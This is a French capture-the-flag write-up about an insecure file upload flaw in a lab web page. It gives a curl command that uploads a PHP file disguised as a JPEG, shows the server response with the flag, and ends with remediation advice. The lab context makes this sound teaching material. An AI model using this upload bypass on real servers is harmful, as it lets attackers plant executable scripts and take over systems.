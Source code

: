 
---

# Exploitation de Faille d'Upload de Fichier et Obtenu de Flag

## Description de la Faille

Une faille d'upload de fichier a été découverte sur une page web permettant de télécharger des images. Bien que la page ne semble accepter que des fichiers `.jpeg`, il est possible de contourner cette restriction et de télécharger un fichier PHP malveillant en le faisant passer pour une image.

## Étapes pour découvrir la faille

### 1. Accéder à la page d'upload

URL : `http://ip-addr/?page=upload#`

La page permet d'uploader des images et n'accepte que les fichiers `.jpeg` :

```html
<td>
<form enctype="multipart/form-data" action="#" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="100000">
    Choose an image to upload:
    <br>
    <input name="uploaded" type="file"><br>
    <br>
    <input type="submit" name="Upload" value="Upload">
</form>
</td>
```

### 2. Simuler une requête POST pour contourner la restriction

Nous allons simuler une requête POST en utilisant `curl` pour uploader un fichier PHP tout en le faisant passer pour une image `.jpeg`. La commande `curl` utilisée est :

```sh
curl -s -X POST -F "Upload=Upload" -F "uploaded=@./test.php;type=image/jpeg" "http://ip-addr/?page=upload"
```

#### Explication de la commande `curl`

- **`curl`** : Outil en ligne de commande pour transférer des données avec des URL.
- **`-s`** : Mode silencieux. Empêche `curl` d'afficher la barre de progression et les messages d'erreur.
- **`-X POST`** : Spécifie que la requête doit être une requête POST.
- **`-F "Upload=Upload"`** : Envoie le champ de formulaire `Upload` avec la valeur `Upload`.
- **`-F "uploaded=@./test.php;type=image/jpeg"`** : Envoie le fichier `test.php` en le faisant passer pour un type `image/jpeg`.
- **`"http://ip-addr/?page=upload"`** : URL de la page d'upload.

L'usage de `test.php` est stratégique car les serveurs web utilisent souvent PHP pour exécuter des scripts. D'autres raisons incluent :
- Les fichiers PHP peuvent contenir des scripts malveillants qui s'exécutent sur le serveur.
- Les fichiers PHP peuvent permettre d'obtenir un shell web pour exécuter des commandes sur le serveur.

### 3. Affiner la recherche avec `grep`

Pour éviter de parcourir toute la page de réponse, nous utilisons `grep` pour filtrer les lignes contenant le flag :

```sh
curl -s -X POST -F "Upload=Upload" -F "uploaded=@./test.php;type=image/jpeg" "http://ip-addr/?page=upload" | grep flag
```

#### Résultat

```
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/test.php succesfully uploaded.</pre>
```

### Flag

```
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## Nom de la Faille

**Faille d'Upload de Fichier Insecure (Insecure File Upload Vulnerability)**

## Recommandations pour éviter cette faille

1. **Valider le type de fichier côté serveur** :
   - Ne vous fiez pas uniquement aux extensions de fichiers ou aux types MIME fournis par le client. Analysez le contenu réel des fichiers pour vérifier leur type.

2. **Restreindre les types de fichiers acceptés** :
   - Limitez les types de fichiers acceptés aux types nécessaires pour l'application (par exemple, uniquement `.jpeg`).

3. **Renommer les fichiers uploadés** :
   - Renommez les fichiers uploadés de manière sécurisée avant de les enregistrer sur le serveur pour éviter l'exécution de scripts malveillants.

4. **Utiliser des répertoires sécurisés pour le stockage** :
   - Stockez les fichiers uploadés dans des répertoires non accessibles publiquement pour éviter qu'ils ne soient exécutés directement par le serveur web.

5. **Mettre en place des contrôles d'accès** :
   - Assurez-vous que seuls les utilisateurs autorisés peuvent uploader des fichiers, et utilisez des contrôles d'accès pour limiter les actions possibles.

6. **Scanner les fichiers pour les malwares** :
   - Utilisez des solutions antivirus pour scanner les fichiers uploadés à la recherche de malwares.

7. **Limiter les permissions d'exécution** :
   - Configurez le serveur pour ne pas exécuter les fichiers uploadés en tant que scripts. Par exemple, désactivez l'exécution de fichiers PHP dans les répertoires de téléchargement.

8. **Audits de sécurité réguliers** :
   - Effectuez régulièrement des audits de sécurité pour identifier et corriger les failles potentielles dans le processus d'upload de fichiers.

En suivant ces recommandations, vous pouvez réduire le risque d'exploitations via des uploads de fichiers et améliorer la sécurité de votre application web.

---

